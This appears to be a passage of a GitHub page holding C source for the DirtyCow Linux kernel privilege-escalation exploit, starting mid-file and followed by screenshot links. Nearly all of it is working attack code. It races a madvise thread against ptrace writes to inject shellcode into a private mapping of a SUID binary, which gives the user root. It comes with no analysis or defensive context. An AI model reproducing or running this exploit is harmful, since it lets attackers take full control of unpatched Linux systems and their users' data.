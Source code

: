 ```
  for(i=0;i<200000000;i++)
    c+=madvise(map,100,MADV_DONTNEED);
  printf("madvise %d\n\n",c);
}


int main(int argc,char *argv[]){

  printf("                                \n\
   (___)                                   \n\
   (o o)_____/                             \n\
    @@ `     \\                            \n\
     \\ ____, /%s                          \n\
     //    //                              \n\
    ^^    ^^                               \n\
", suid_binary);
  char *backup;
  printf("DirtyCow root privilege escalation\n");
  printf("Backing up %s to /tmp/bak\n", suid_binary);
  asprintf(&backup, "cp %s /tmp/bak", suid_binary);
  system(backup);

  f=open(suid_binary,O_RDONLY);
  fstat(f,&st);
  map=mmap(NULL,st.st_size+sizeof(long),PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
  pid=fork();
  if(pid){
    waitpid(pid,NULL,0);
    int u,i,o,c=0,l=sc_len;
    for(i=0;i<10000/l;i++)
      for(o=0;o<l;o++)
        for(u=0;u<10000;u++)
          c+=ptrace(PTRACE_POKETEXT,pid,map+o,*((long*)(shell_code+o)));
    printf("ptrace %d\n\n",c);
   }
  else{
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(),SIGSTOP);
    pthread_join(pth,NULL);
    }
  return 0;
}
```

<img width="588" height="594" alt="image" src="https://github.com/user-attachments/assets/9a7822a0-7c6e-4ced-aeae-aa55afade44f" />

<img width="631" height="891" alt="image" src="https://github.com/user-attachments/assets/07646171-0d56-4a8e-a5b2-5d76aa8653b3" />

<img width="585" height="718" alt="image" src="https://github.com/user-attachments/assets/be8fa0c6-b4a8-430d-885f-78b0e957f9dd" />

